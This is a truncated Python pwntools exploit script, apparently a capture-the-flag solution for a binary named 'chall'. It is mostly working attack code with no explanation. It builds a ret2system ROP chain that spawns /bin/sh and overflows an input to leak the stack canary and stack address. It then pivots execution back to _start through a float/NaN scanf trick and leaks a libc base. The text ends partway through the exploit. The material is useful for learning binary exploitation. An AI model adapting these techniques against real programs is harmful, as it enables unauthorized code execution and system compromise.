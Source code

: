 ```python
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
def ret2system():
    rop = ROP(libc)
    rop.raw(rop.ret.address)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()

def exploit():
    global io
    io = initialize()
    with log.progress("Leak canary & stack"), context.silent:
        sla("> ", "nan")
        offset = 0x18
        payload = flat({offset:[]}, filler=b"\x41")
        sa("> ", payload + b"\x41") # touch canary one byte
        ru("A"*0x19)
        canary = u64(r(7).ljust(8, b"\x00")) << 8
        stack = u64(ru(". ").ljust(8, b"\x00"))
        target = stack + 0xd8 #pivot to _start
        sa("> ", payload + b"\x00") # Fix canary
    leak("Canary", hex(canary))
    leak("Stack", hex(stack))
    leak("Target", hex(target))

    with log.progress("Overwrite and pivot to _start"), context.silent:
        sla("> ", "1 1")
        bits = 147
        payload = struct.unpack('!f', struct.pack('!I', bits))[0]
        sla("> ", str(payload).encode())
        sa("> ", p64(canary)*4 + p64(target)[:6])
        sa("> ", b"x") #So it fail and pass the scanf function
        sa("> ", p64(canary)*12) # just need the 96 = canary this is for easier

    with log.progress("Leak libc"), context.silent:
        sla("> ", "nan")
        sa("> ", b"A"*8)
        ru("A"*8)
        libc_leak = u64(ru(". ").ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["_IO_default_uflow"] + 50)
        target = target - 0x160 #pivot to input
        sa("> ", b"A") # anythin small cuz didn't touch canary
```